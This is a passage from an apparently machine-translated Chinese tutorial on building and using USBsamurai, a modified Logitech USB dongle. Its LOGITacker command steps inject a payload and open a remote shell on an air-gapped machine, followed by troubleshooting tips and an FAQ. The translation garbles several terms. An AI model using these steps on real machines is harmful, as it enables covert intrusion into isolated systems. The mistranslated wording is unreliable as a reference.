*   *用“***inject execute***”开始有效载荷注入*
*   *利润。*

***如何绕过气隙电机:***

*   *在 LOGITacker 上设置正确的工作模式(如果尚未设置)(即 g700 或 lightspeed)。*
*   *从闪存加载配对的 USBsamurai(如果尚未加载)(即“ ***设备存储加载 XX:XX:XX:XX:XX*** ”)*
*   *先用“ ***部署那个时髦的特工隐蔽 _ 渠道部署 XX:XX:XX:XX:XX****”**
*   *等一下。30 秒后药剂完全注射完毕。*
*   *类型" ***cover_channel 连接 XX:XX:XX:XX:XX****
*   **瞧啊。你把你的远程外壳装在一个有气隙的机器上！**
*   **注意:要退出 shell，请键入" ***！退出*****

# **故障排除提示**

****重要！！！**确保您的计算机上只连接了 Logitech 加密狗！！否则，运行一个 Kali 虚拟机，只将您想要闪存/配对的 C-U00xx 附加到它！**

**此外，要么在 Kali VM 上安装所有软件(经确认运行正常)，要么使用 sudo 在您首选的 Linux 操作系统上运行。**

**关于 munifying，我一般是从 Github 下载，安装 golang，libusb 然后用“go build”编译。**

# **自由职业者协会**

*   ****我应该买什么加密狗？****

**出于多种原因，我强烈推荐 C-U0012！**

*   **我太笨了，不能自己造一个 USBsamurai。你卖它吗？**

**不。这是一个 DIY 项目，将保持原样。但是…如果你有多余的比特币给世界各地的非营利组织…把支付凭证发给我，我会给你一个闪亮的 USBsamurai！**

*   ****USB 线支持数据直通吗？****

**不，目前还不能。不过，有一些简单的方法可以实现它。例如，通过使用外部 nano hub([https://www . smart-prototyping . com/nano hub-tiny-USB-hub-for-hacking-projects](https://www.smart-prototyping.com/NanoHub-tiny-USB-hub-for-hacking-projects))。**

****

**当然，在结束这篇文章之前，我必须感谢马库斯·“逻辑黑客”·门斯(又名@mame82)创造了如此令人惊叹的软件，并且(特别是)与自由/开源软件社区进行了分享！**